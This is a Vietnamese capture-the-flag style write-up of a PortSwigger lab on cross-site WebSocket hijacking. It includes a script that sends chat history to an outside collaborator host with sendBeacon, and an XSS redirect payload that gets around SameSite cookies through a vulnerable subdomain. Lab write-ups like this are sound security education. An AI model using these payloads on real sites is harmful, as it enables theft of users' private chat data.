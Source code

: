 ![image](https://github.com/user-attachments/assets/e58a53ff-142e-43d1-91c1-47b32feafdcd)

Ở challenge này thì chúng ta phải khai thác thông qua `Cross-site WebSocket hijacking`.

Cross-Site WebSocket Hijacking (CSWSH) là một kỹ thuật tấn công bảo mật khai thác cách ứng dụng xử lý các kết nối WebSocket để đánh cắp hoặc thao tác dữ liệu nhạy cảm.

Bạn muốn biết chi tiết thì đọc thêm link tôi gửi phía dưới.

![image](https://github.com/user-attachments/assets/fa62a0b6-13cd-4773-abeb-0272712b6b1a)

Chức năng live chat sử dụng web socket.

![image](https://github.com/user-attachments/assets/cf3112eb-fc48-4b41-94dd-81b53a137041)

![image](https://github.com/user-attachments/assets/2aef2dea-fc5d-44e7-8bcd-31236e39ecff)

Ta có thể thấy được rằng khi sẵn sàng thì client sẽ gửi thông báo "READY" đến server.

Tiến hành tạo 1 payload đơn giản để check lỗi `Cross-site WebSocket hijacking`

```
<script>
    var ws = new WebSocket('wss://0aad005d0351668580bdf483001b0082.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        navigator.sendBeacon('https://yz1lj4w6cbrjx0myil1lppzsljraf43t.oastify.com', event.data);
    };
</script>
```

**Giải thích đơn giản về payload:**

_Khởi tạo WebSocket:_

```
var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
```

Lệnh này tạo một kết nối WebSocket từ client đến server (URL chỉ định đến `endpoint /chat` của ứng dụng mục tiêu).

_Sự kiện onopen:_

```
ws.onopen = function() {
    ws.send("READY");
};
```

Khi kết nối WebSocket được mở thành công, lệnh `ws.send("READY");` sẽ gửi thông báo "READY" đến server. Server sẽ phản hồi với dữ liệu chat history hoặc nội dung đã lưu (ví dụ: lịch sử tin nhắn).

_Sự kiện onmessage:_

```
ws.onmessage = function(event) {
    navigator.sendBeacon('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', event.data);
};
```

Khi server gửi phản hồi qua WebSocket, phản hồi đó sẽ kích hoạt onmessage. Tham số `event.data` chứa nội dung được server gửi về, ở đây là `chat history`.

`navigator.sendBeacon` gửi dữ liệu đến một URL khác (ở đây là `https://YOUR-COLLABORATOR-PAYLOAD.oastify.com`). Phương thức này đảm bảo dữ liệu sẽ được gửi đi ngay cả khi trang web bị đóng đột ngột.

![image](https://github.com/user-attachments/assets/64980cef-cb05-46fd-9e62-73f6a1ebbcaa)

Sau khi gửi payload thì xác nhận là có bug.

Tiếp theo là vào url này:

```
https://exploit-0af200ce0353f22980cec5a7013c000d.exploit-server.net/exploit
```

Và tiến hành quan sát burp thì ta thấy được 

![image](https://github.com/user-attachments/assets/ffa833ea-aa5f-4731-b75b-05dc5afdf7e2)

Request nó không có gửi cookie đi do có `samesite: strict`.

![image](https://github.com/user-attachments/assets/c2a04818-50fe-490d-bc71-9da17b7c0642)

Sau khi đi hết các ngóc ngách của challenge này thì tôi phát hiện ra tại `/resources/images/shop.svg` có lộ 1 subdomain thông qua `Access-Control-Allow-Origin` (1 cơ chế bảo mật thuộc `CORS`)

![image](https://github.com/user-attachments/assets/06f118d3-897c-4446-9c63-8f36b31b942b)

Dường như là 1 trang login.

![image](https://github.com/user-attachments/assets/a037c6fa-89dd-4487-9f15-5d41b233d98a)

Thử đăng nhập đại vào thì nó lại báo là `invalid username` và còn in ra màn hình nữa chớ, cùng check thử xem nó có bị html injection không nhé.

![image](https://github.com/user-attachments/assets/df4c8349-91bd-435f-ae9d-96adacf30095)

Nó bị html injection và khi tôi test với tag script thì nó cũng bị xss luôn, nó không sanitizer cái gì hết :">

vậy giờ ta hãy lợi dụng xss ở trang này để thực thi code js ở trang kia. 

Tiến hành tạo 1 payload GET như các challenge trước với mục đích là để lợi dụng các same origin để thực thi payload (`bypass samesite: strict`).

```
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Đó, tại vì đây là url nên phải url encode đoạn script kia :"))

![image](https://github.com/user-attachments/assets/7d9fa1d5-3b75-49a1-94f3-559546f67f22)

![image](https://github.com/user-attachments/assets/b961e8b8-42ed-40c5-9596-80bd336b5c21)

Tiến hành gửi cho con bot.

![image](https://github.com/user-attachments/assets/3b2a29e4-b09d-4ef6-9c3f-772cd1f4f22e)

Vào collaborator thì ta đã lấy được thành công thông tin của đoạn chat này

![image](https://github.com/user-attachments/assets/a557de53-b1b6-4227-b152-e595d501087e)

Thành công

## REFERENCES
[1]. https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

[2]. https://portswigger.net/web-security/websockets/what-are-websockets#how-are-websocket-connections-established
